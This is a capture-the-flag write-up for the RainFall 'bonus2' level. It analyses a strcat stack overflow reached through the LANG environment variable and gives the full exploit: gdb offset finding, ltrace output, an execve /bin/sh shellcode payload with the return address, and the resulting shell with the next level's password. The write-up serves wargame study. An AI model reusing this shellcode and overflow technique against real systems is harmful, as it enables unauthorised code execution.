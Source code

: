 # **Bonus2**

## **Analysis**

**In `main()` :**

```c
    char    str1[0x28]; // 40
    char    str2[0x20]; // 32
    char    *env;

    // 2 Arguments Needed
    if (argc != 3)
        return 1;

    // 2 strncpy, no overflow possible
    strncpy(str1, av[1], 0x28); // 40
    strncpy(str2, av[2], 0x20); // 32

    // get the env variable 'LANG'
    env = getenv("LANG");

    // Give index from LANG, 0 by default
    if (env != NULL) {
        if (memcmp(env, "fi", 2) == 0) {
            lang = 1;
        } else if (memcmp(env, "nl", 2) == 0) {
            lang = 2;
        }
    }

    // call greetuser
    greetuser(str1);
```

**In `greetuser()`:**

```c
    char str[0x48]; // 72
    
    // Concat the corresponding greeting to the str given
    if (lang == 0)
        strcpy(str, "Hello ");
    else if (lang == 1)
        strcpy(str, "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4 "); // 18 characters
    else if (lang == 2)
        strcpy(str, "Goedemiddag! "); // 13 characters
    strcat(str, user);

    puts(str);
```

___

## **Exploit**

We cannot overflow with the strncpy, but we can make it so str1 doesn't terminate with '\0' and continue to str2 memory,

So we can have a string of length 72

The str created in `greetuser()` has a max length of 72, so the greeting + our string of string, we can overflow up to 18 characters in this function

```
bonus2@RainFall:~$ export LANG=fi

bonus2@RainFall:~$ gdb bonus2

(gdb) run $(python -c 'print "A" * 40') $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz"')
...
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x46464545 in ?? ()

 ❯ python3 offset.py 45
16
 ❯ python3 offset.py 46
20
```

Offset : 18

```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ltrace ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18')
...
strncpy(0xbffff690, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 40)                                                                                        = 0xbffff690
...
```

Adress of str1 : 0xbffff690

**Solution:**
 * 1st Argument:
   * (40) first 40 characters of the shell_code
 * 2nd Argument:
   * (05) remaining characters of the shell_code
   * (13) offset = 18 - 5
   * (04) adress of str1, shell_code

```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/b"') $(python -c 'print "in/sh" + "\x90" * 13 + "\x90\xf6\xff\xbf"')
Hyvää päivää �^�1��F�F
                      �
                       ���V
                            ̀1ۉ�@̀�����/bin/sh�����������������
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

___

*Password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245*